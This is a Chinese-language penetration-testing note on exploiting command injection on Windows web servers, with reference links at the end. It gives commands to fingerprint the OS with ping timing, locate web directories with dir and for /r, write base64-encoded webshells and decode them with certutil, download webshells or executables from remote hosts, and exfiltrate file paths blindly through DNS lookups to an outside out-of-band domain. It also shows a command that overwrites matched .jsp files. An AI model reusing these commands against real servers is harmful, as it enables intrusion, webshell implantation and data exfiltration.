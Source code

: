 # 命令执行回显探究


# 判断目标操作系统

windows和linux系统下的ping命令参数不同，windows用-n，linux用-c

所以可以在burp当中用`ping -n 3`来判断

如果是windows系统则会产生相应延时，反之则是linux系统





# windows下的命令执行

## 有回显并且出网

### 1.显示路径

可以选择一些特殊文件比如`ms-el-form.umd.js`，然后搭配下面的指令来显示路径

![image-20240104202100801](../../../../img/image-20240104202100801.png)

```
dir /s /a-d /b ms-el-form.umd.js
```

![image-20240104203743837](../../../../img/image-20240104203743837.png)

知道了路径就可以往网站目录写webshell了，写的时候需要注意转义

### 2.远程下载

调用远程下载的命令来把webshell下载到网站目录、下载exe上线



## 有回显不出网

### 1.显示路径

```
dir /s /a-d /b ms-el-form.umd.js
for /r c: %i in (ms-el-form.umd.js*) do @echo %i
```



echo写入base64编码的webshell，然后用certutil解码



## 无回显出网

写入webshell或者远程下载exe

找个特殊的文件，可以盲打，将结果输出到新建文件然后读取

```
for /r C:\  %i  in  (20230726070752*.jsp) do @echo caonimalzf' > %i.jsp
```



知道了路径就可以

```
for /r c: %i in (ms-el-form.umd*.js) do certutil -urlcache -split -f http:690516bc1c.ipv6.1433.eu.org.%i
```



690516bc1c.ipv6.1433.eu.org.

https://mp.weixin.qq.com/s?__biz=MzkzNjMxNDM0Mg==&mid=2247483888&idx=1&sn=1b27699118e73565fa62aa73ab8fcbd8&chksm=c2a1d579f5d65c6ff6292013a5f272ccd27b940ef8efc790055259b97a85fb6b8992c9bcf435&mpshare=1&scene=1&srcid=0208XTmwC6NG4aBm5epId8as&sharer_sharetime=1644311126317&sharer_shareid=364b318b59e17770cdf42d79a4539355&version=4.0.0.6007&platform=win#rd



https://cn-sec.com/archives/1129108.html



https://lmcmc.github.io/2020/11/28/RCE%E4%B9%8B%E6%89%A7%E8%A1%8C%E6%97%A0%E5%9B%9E%E6%98%BE/


